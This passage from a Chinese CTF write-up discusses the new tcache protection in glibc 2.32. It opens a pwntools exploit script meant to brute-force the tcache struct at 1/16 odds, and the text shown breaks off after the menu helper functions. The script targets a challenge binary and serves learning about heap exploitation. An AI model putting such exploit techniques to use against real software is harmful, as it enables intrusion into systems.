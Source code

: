 ![](img/20d0dbe3a511a1529270b1a5072eb0aa.png)

> ### glibc2.32下tcache新增的保护
> 
> 一开始题目给出的libc版本为2.32，笔者原以为和libc2.31应当没有太大区别，故最初想的解法便是 1/16 的几率爆破到tcache struct，exp如下：
> 
> ```
> from pwn import*
> 
> global p
> libc = ELF('./libc.so.6')
> 
> hit = [b'\x00', b'\x10', b'\x20', b'\x30', b'\x40', b'\x50', b'\x60', b'\x70', b'\x80', b'\x90', b'\xa0', b'\xb0', b'\xc0', b'\xd0', b'\xe0', b'\xf0']
> 
> def cmd(command:int):
>  p.recvuntil(b">>")
>  p.sendline(str(command).encode())
> 
> def new(size:int, content):
>  cmd(1)
>  p.recvuntil(b"Size:")
>  p.sendline(str(size).encode())
>  p.recvuntil(b"Content:")
>  p.send(content)
> 